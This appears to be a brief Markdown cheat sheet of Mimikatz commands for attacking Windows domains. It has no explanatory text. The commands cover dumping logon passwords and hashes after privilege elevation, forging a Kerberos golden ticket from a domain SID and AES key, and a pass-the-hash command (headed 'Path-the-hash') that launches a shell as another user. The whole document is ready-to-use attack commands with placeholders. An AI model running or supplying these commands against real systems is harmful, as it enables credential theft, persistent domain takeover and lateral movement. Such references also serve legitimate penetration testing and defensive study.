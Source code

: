 # Lists all available provider credentials
```console
mimikatz "log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```

# Make a Golden ticket
<details>
  <summary>Find SID</summary>
  
  Using [wmic](https://github.com/okazymyrov/piki/blob/master/wmic.md#get-sids-of-domains) or 
  ```console
  whoami /all
  ```
  
</details>

```console
mimikatz "kerberos::golden /user:<username> /domain:<domain> /sid:<sid> /aes256:<aes256_hmac> /id:<user_id> /groups:<group_id> /startoffset:0 /endin:600 /renewmax:10080 /ticket:<user.domain.kirbi>" "exit"
```

# Path-the-hash
```console
mimikatz "sekurlsa::pth /user:<user> /aes256:<aes256_hmac> /domain:<domain> /run:cmd.exe" "exit"
```
